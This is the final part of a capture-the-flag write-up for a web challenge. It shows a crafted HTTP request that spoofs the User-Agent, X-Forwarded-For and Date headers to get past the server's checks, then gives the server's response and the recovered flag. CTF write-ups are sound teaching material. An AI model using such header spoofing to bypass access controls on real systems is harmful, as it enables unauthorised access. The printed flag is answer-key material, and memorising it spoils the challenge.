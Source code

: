 To bypass the time restriction, the `

Date` header was manually set to a time before the cutoff:

```http
GET /elite HTTP/1.1
Host: chall.ycfteam.in:6375
Upgrade-Insecure-Requests: 1
User-Agent: Elite
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
X-Forwarded-For: 50.23.41.34,3.54.85.90,110.34.87.34,10.43.21.25
X-Forwarded-Port: 31173
Origin: http://chall.ycfteam.in:6375/
Age: 20
Date: Wed, 21 Oct 2015 07:28:00 GMT
Accept-Language: en-US,en;q=0.9
Connection: close
```

**Response:**

```http
HTTP/1.1 200 OK
Server: Werkzeug/3.0.3 Python/3.9.19
Date: Sun, 25 Aug 2024 17:10:55 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 220
Connection: close

Alright then! You've proven that you are indeed Elite!! Congratulations on joining the club! It's great to have you on board with us. Here's your exclusive welcome gift: CyGenixCTF{W3lc0me_t0_Th3_ELIt3_5qU4d_5bf90dac2b7}
```

### Flag

The final flag obtained was:

```
CyGenixCTF{W3lc0me_t0_Th3_ELIt3_5qU4d_5bf90dac2b7}
```

## Conclusion

This challenge required carefully manipulating HTTP request headers to meet the specific conditions enforced by the server. By analyzing the server responses and making incremental adjustments, the necessary access was gained, and the flag was retrieved successfully.

--- 

This comprehensive writeup details each step and includes all necessary HTTP requests and responses, ensuring clarity for anyone reviewing the challenge.
